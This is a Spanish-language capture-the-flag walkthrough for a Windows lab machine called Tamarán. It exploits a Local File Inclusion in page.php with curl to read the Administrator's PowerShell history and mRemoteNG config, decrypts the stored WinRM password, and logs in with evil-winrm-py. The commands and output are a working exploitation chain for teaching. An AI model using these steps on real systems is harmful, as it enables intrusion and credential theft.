


## Table of contents

## Enumeración

La máquina Tamarán tiene la ip **10.0.2.81**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.81

Host is up (0.00048s latency).
Not shown: 58590 closed tcp ports (reset), 6932 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Everest
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: CONNECTION, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:5d:8c:1c (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2026-09-13T10:38:14
|_  start_date: N/A
```

### Puerto 80 (Web)

Accedemos con el navegador a la ip y nos encontramos con la web de una empresa llamada **Everest**. Revisando la página encontramos que **page.php** recibe el parámetro **section** por el método **GET**.



Empleamos **ffuf** para comprobar si ese parámetro es vulnerable a un **Local File Inclusion** (**LFI**).

```bash
 ffuf -c -u "http://10.0.2.81/page.php?section=FUZZ" -w /usr/share/wordlists/SecLists/Fuzzing/LFI/Windows/Windows-Paths.txt -fs 0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.81/page.php?section=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/LFI/Windows/Windows-Paths.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

C:\Windows\System32\drivers\etc\hosts [Status: 200, Size: 824, Words: 172, Lines: 22, Duration: 2ms]
```

Vamos a usar **curl** para leer ese archivo del servidor de Windows y confirmar el **LFI**.

```bash
 curl -s 'http://10.0.2.81/page.php?section=C:\Windows\System32\drivers\etc\hosts'
# Copyright (c) 1993-2009 Microsoft Corp.
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
```

El parámetro **section** es vulnerable a **LFI**.

## Explotación
### LFI + Crack Encrypted Password

Tras muchas pruebas y no encontrar nada, revisando la resolución de la máquina **Tech** de esta misma plataforma encontramos el directorio `C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`, que almacena el historial de la Powershell del usuario Administrator.

Si probamos ese path en el **LFI** conseguimos leer el historial del Administrator.

```bash
curl -s "http://10.0.2.81/page.php?section=C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
whoami
ipconfig
cd C:\Users\Administrator\Desktop\
msiexec.exe /i ".\mRemoteNG-Installer-1.76.20.24615.msi"
Remove-Item ".\mRemoteNG-Installer-1.76.20.24615.msi" -Force
Restart-Computer -Force
```

**Nota**: Este path no había sido reportado por **ffuf** debido a que la wordlist usada tiene **PSReadline** con `l` minúscula y a pesar de que la Powershell de Windows es *Key Insensitive*, el backend debe de estar esperando esa palabra con la `L` mayúscula, de la forma que la hemos enviado con curl.

Podemos ver como el Administrator ha instalado el paquete **mRemoteNG**. Este es un gestor de conexiones remotas de código abierto para Windows.

Vamos a tratar de ver el archivo de configuración de **mRemoteNG** del usuario **Administrator**.

```bash
curl -s "http://10.0.2.81/page.php?section=C:\Users\Administrator\AppData\Roaming\mRemoteNG\confCons.xml"
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" ... >
    <Node Name="administrator" Type="Connection" Descr="WinRM" Icon="mRemoteNG" Panel="General"
     Id="674cbfd1-acb0-4965-806f-24cc11695798" Username="administrator" Domain="connection.nyx" 
     Password="RUQ0nzfeIV11g9eDodO74bdInTIu3LE0OAn3P+tWkNKEoAJWViqGx1us4kMsy4JmmY37UlrxPREoaYlTT+JY4YCnTlogYypQ"
     Hostname="10.10.10.8" Protocol="IntApp" PuttySession="Default Settings" Port="5985" ConnectToConsole="false"
    ...
    InheritRDGatewayDomain="false" />
</mrng:Connections> 
```

El archivo de configuración hace referente a la conexión del usuario Administrator con el servicio **WinRM**, en ella podemos ver la contraseña encriptada de este usuario.

Para poder desencriptarla vamos a usar este proyecto de Github del usuario **kmahyyg**.

- https://github.com/kmahyyg/mremoteng-decrypt


Clonamos el repositorio y ejecutamos el script con python3 pasándole el archivo de configuración que habíamos obtenenido.

```bash
python3 mremoteng_decrypt.py -rf ../conf.xml

Username: administrator
Hostname: 10.10.10.8
Password: TheConnectionPassword123 
```

## Acceso WinRM

Con la contraseña en texto plano nos conectamos como el usuario Administrator al servicio de **WinRM**.

```bash
evil-winrm-py -i 10.0.2.81 -u Administrator -p 'TheConnectionPassword123'
[*] Connecting to '10.0.2.81:5985' as 'Administrator'

evil-winrm-py PS C:\Users\Administrator\Documents> dir ../Desktop

Mode                LastWriteTime         Length Name                                                                   
----                -------------         ------ ----                                                                   
-a----        9/12/2026   1:40 PM             70 root.txt                                                               
-a----        9/12/2026   1:39 PM             70 user.txt                                                               
``` 